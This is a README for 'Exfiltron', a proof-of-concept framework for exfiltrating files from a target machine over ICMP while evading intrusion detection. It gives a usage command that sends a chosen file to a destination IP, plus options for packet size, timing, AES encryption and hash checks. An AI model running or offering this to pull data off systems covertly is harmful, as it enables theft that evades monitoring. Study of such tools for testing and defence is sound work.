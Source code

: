 # Exfiltron
Data Exfiltration Framework 

!!!! Please be aware that is project is in progress and may have parts missing
!!!!

## What does it do?
This framework is meant as a proof of concept for exfiltrating data 
from a target computer. YOU SHOULD NOT USE THIS ON ANYTHING YOU DO 
NOT OWN OR HAVE EXPLICIT PERMISSION TO USE IT ON. Exfiltron is meant to 
evade IDS in order to get data back to you.

## Things you must have before extraction time
* You must have [python2.7+](https://www.python.org) installed on both the
server and the client side
* You must have [scapy](http://www.secdev.org/projects/scapy) 
([download](http://scapy.net)) installed on both the server and the client side
    * If you wish to encrypt your file before sending it out, make sure you have
the [cryptography](https://cryptography.io/en/latest) python package which
should be installed when you install scapy

## Sounds great! How do I try it out?
First, get it on your local machine. There are two major files: the client
file (exfiltron.py) and the server file. The client file must be placed on
a target machine along with any modules you wish to use for your extraction
method. SET UP THE SERVER SIDE INFORMATION HERE. After exfiltron.py has
been placed on the target machine, run the following command on the target:

`python exfiltron.py exfiltrationMethod -f filename -d destinationIP [-aehiqt]`

* -h is help
* -a (--data-per-packet) is the amount of data you want to fit into each packet.
The default is the number of bytes that normally sit in that packet while the
min amount is 1 byte and the max amount is the MTU minus the headers and trailers
on the packet. The amount should be specified after the option (ex. -a 64)
* -t (--time) specifies the amount of time to wait between after sending a packet
before sending another packet. This numerical value should be given in terms of
seconds. If no value is explicitly set, exfiltron defaults the value to 5 seconds
* -q (--quiet) By default, a progress bar is shown displaying
numPacketsSent/numTotalPacketsToSend. This option silences any output relating
to the progress bar
* -e (--encrypt) Setting this flag will result in your data being encrypted 
with AES-256 using CTR mode. Please note that this should only be used if the
attacker executes exfiltron.py through a secure channel
* -i (--integrity-check) Exfiltron hashes the chosen file and sends, as the
first packet, the resulting hash. After receiving all of the files, the
attacker's side then pieces the file back together and runs the same hash
again and compares the two. Please note that the hash will be placed in the
first packet sent and will ignore the setting placed after the -a 
(--data-per-packet) flag. All other packets will be sized with respect to
the -a flag. The hash in use is SHA-256

## Methods of Exfiltration
Currently, the following methods of exfiltration are available/in progress:
* ICMP

#### Original Authors
* Adam Sowden
* Andrew Steiner
* Thomas Daniels
